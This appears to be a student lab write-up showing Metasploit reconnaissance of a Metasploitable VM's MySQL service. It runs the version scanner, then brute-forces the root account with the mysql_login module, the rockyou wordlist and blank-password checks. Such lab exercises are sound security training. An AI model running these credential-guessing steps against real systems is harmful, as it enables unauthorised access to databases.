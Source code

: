 

use the auxiliary/scanner/mysql/mysql_version module by typing the module name or associated number to scan MySQL version details.
use 11
Or:
use auxiliary/scanner/mysql/mysql_version
## OUTPUT:
<img width="974" height="608" alt="Screenshot 2025-10-28 220731" src="https://github.com/user-attachments/assets/baf52a33-e9e0-4bc2-973f-3dd093cc16eb" />




Use the set rhosts command to set the parameter and run the module, as follows:
## OUTPUT:

<img width="714" height="117" alt="Screenshot 2025-10-28 220859" src="https://github.com/user-attachments/assets/9c86422f-73d3-4f6b-bb43-a9487dfb6119" />


After scanning, you can also brute force MySQL root account via Metasploit's auxiliary(scanner/mysql/mysql_login) module.
## OUTPUT:

<img width="969" height="554" alt="Screenshot 2025-10-28 221540" src="https://github.com/user-attachments/assets/3bd1e487-5e8b-49c4-b740-2a8cf0e442b8" />



set the PASS_FILE parameter to the wordlist path available inside /usr/share/wordlists:
set PASS_FILE /usr/share/wordlistss/rockyou.txt
Then, specify the IP address of the target machine with the RHOSTS command.
set RHOSTS <metasploitable-ip-address>
Set BLANK_PASSWORDS to true in case there is no password set for the root account.
set BLANK_PASSWORDS true
## OUTPUT:

<img width="921" height="689" alt="Screenshot 2025-10-28 223319" src="https://github.com/user-attachments/assets/e1fe2ee9-dc10-4023-ba42-d36570caf77a" />





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

